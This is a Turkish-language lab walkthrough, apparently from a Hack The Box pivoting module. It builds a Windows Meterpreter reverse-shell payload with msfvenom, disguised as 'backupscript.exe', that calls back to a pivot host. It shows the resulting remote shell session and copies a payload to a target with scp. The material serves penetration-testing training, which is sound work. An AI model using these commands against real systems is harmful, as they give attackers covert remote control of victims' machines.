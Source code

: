 Artık Windows hostumuzda çalıştırıldığında 172.16.5.129:1234 adresindeki Ubuntu sunucumuza bir bağlantı gönderecek bir reverse shell payload oluşturabiliriz. Ubuntu sunucumuz bu bağlantıyı aldığında, bunu yapılandırdığımız saldırı hostunun ip:8081'ine iletecektir.


### Windows Payload'unun Oluşturulması
```shell-session
M1R4CKCK@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
Son olarak, payload'umuzu Windows host üzerinde çalıştırırsak, Ubuntu sunucusu üzerinden pivot edilen Windows'tan bir shell alabilmeliyiz.


### Meterpreter oturumunun oluşturulması
```shell-session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Soru : Ubuntu pivot hostundan bir ping taraması denendiğinde hangi iki IP adresi bulunabilir? (Format: x.x.x.x,x.x.x.x)
Cevap : 

1- İlk olarak msfvenomda ubuntu makinasında meterpreter oturumu almak için bir payload oluşturuyoruz elf formatında. 
![Pasted image 20241004220739.png](/img/user/resimler/Pasted%20image%2020241004220739.png)

* Payloadı hedef ubuntu sisteme scp ile yolluyoruz.

```shell-session
$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

* Hedef sisteme yolladıktan sonra yürütülebilir olarak ayarlıyoruz. 

![Pasted image 20241004222138.png](/img/user/resimler/Pasted%20image%2020241004222138.png)
